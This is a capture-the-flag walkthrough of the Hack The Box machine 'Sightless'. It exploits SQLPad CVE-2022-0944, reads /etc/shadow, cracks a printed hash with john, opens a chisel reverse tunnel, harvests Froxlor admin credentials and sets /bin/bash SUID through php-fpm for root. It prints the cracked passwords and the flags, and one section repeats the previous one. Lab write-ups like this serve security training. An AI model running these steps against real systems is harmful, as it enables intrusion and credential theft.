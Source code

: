 ```yaml
---
sticker: lucide//eye-off
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | FTP     |
| 22   | SSH     |
| 80   |         |

Let's start with reconnaissance.

# RECONNAISSANCE
---

![](Pasted%20image%2020250107170937.png)

`echo "10.10.11.32 sightless.htb" | sudo tee -a /etc/hosts 2>/dev/null`

![](Pasted%20image%2020250107171213.png)

Now we can access the website, we have a `home`, `about`, `services` and a `contact us` part, if we go to the service part, we can see the following:

![](Pasted%20image%2020250107171349.png)

We got a `sqlpad` service, if we click start now, we are redirected to `sqlpad.sightless.htb`, let's add this subdomain to `/etc/hosts` too:

![](Pasted%20image%2020250107171612.png)

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](Pasted%20image%2020250107182931.png)


# EXPLOITATION
---

Now we find ourselves in a sqlpad panel, if we look further in the site, we find we are using sqlpad 6.10.0:

![](Pasted%20image%2020250107172243.png)

Let's check the web and see if there's anything related to this version:

![](Pasted%20image%2020250107172334.png)

Found `CVE-2022-0944` which talks about a Template injection leading to a RCE, I also found this [github exploit](https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944/blob/master/CVE-2022-0944) which works with bash:

![](Pasted%20image%2020250107182931.png)

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize the shell]], we would think that we already beat the machine since we got root access but no, we are inside of a docker container, we need some sort of way to get into the real machine, that's when we find 2 users, Michael and node:

![](Pasted%20image%2020250107183525.png)

![](Pasted%20image%2020250107183536.png)


Since we already have root access in the docker container, let's read `/etc/shadow` and get the hash for michael user:

![](Pasted%20image%2020250107183633.png)

```ad-note
Michael hash is: 

`$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/`

----
We need to crack this hash using john, let's do it:

`john hash -w=/usr/share/wordlist/rockyou.txt`

----
This will output: `insaneclownposse`


Let's log into ssh using those credentials:


`michael`:`insaneclownposse`
```



![](Pasted%20image%2020250107184751.png)

Now we are inside of michael's account, we can read the user flag now:

```ad-note
![](Pasted%20image%2020250107184841.png)
user flag: `fa24b7668682e82a648c821ccf0d9526`
```

# Privilege escalation
---

Let's proceed with privesc.

We'll be using linpeas to show use some possible PE vectors:

![](Pasted%20image%2020250107185646.png)

There is a weird connection made to the port `8080`, we need to investigate this, for this, we will use chisel as we need to resend the traffic back to our local machine:

```ad-hint

##### Doing a reverse proxy
---
1. `chisel server -p 9999 --reverse`
2. `chmod +x chisel`
3. `./chisel client 10.10.15.36:9999 R:8080:127.0.0.1:8080`

![](Pasted%20image%2020250107192250.png)
![](Pasted%20image%2020250107192300.png)

```

Now, let's visit the page:

![](Pasted%20image%2020250107192343.png)

It's executing froxlor, in order to get the credentials, we'll be using the following exploit: [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/), this is basically a chrome remote debugger pentest, since the machine is running chrome actively, we can use this to exploit and access the credentials, once we've reproduce all the steps accordingly to the notes, we get the following credentials:

```ad-note

`admin`:`ForlorfroxAdmin`

```


Let's log into the panel:

![](Pasted%20image%2020250107193550.png)

We got access to the panel, as seen, we have a php section, this has the following:

![](Pasted%20image%2020250107193639.png)

We got `php-fpm`, we are able to execute php code, we can do the following:

```ad-note
1. Create new PHP version
2. `chmod 4777 /bin/bash`
3. Go to `/system/settings/php-fpm`, disable it and enable it again
4. Go to our terminal and perform `/bin/bash -p`
5. Get root shell
```


```ad-important
If we did all correctly, we are able to get root access:

![](Pasted%20image%2020250107194238.png)

This is the root flag:

![](Pasted%20image%2020250107194255.png)

Root: `1c4c6860beaa42a5b9b8e404fbcbf656`


```
